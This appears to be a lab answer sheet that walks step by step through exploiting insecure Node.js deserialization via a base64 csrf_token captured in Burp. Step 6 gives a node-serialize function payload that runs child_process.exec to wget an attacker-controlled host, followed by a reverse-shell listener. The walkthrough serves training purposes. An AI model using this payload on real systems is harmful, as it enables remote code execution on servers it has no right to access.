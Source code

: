# Node Deserialization Answersheet

**Step 1:** Navigate to "Node Website: 16663" link
![Usage](1.png)
<br /> <br />

**Step 2:** Provide the required details and click on "Register" button
![Usage](2.png)
<br /> <br />

**Step 3:** Capture the request in Burp proxy and capture the csrf_token parameter
![Usage](3.png)
<br /> <br />

**Step 4:** Observer the value while converting the base64 information.
![Usage](4.png)
<br /> <br />

**Step 5:** Send the request to Burp repeater captured in **Step 3**
![Usage](5.png)
<br /> <br />

**Step 6:** Create the node js serealized payload using the following information.
```
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('wget http://192.168.X.206:9999/test /',function(error, stdout, stderr) {console.log(stdout) });\n }()"}
```
![Usage](6.png)
<br /> <br />

**Step 7:** Start the listener for reverse shell.
![Usage](7.png)
<br /> <br />

**Step 8:** Replace the payload generated in **Step 6** in csrf_token parameter 
![Usage](8.png)
<br /> <br />

**Step 9:** We are able to receive the request information in reverse shell
![Usage](9.png)
<br /> <br />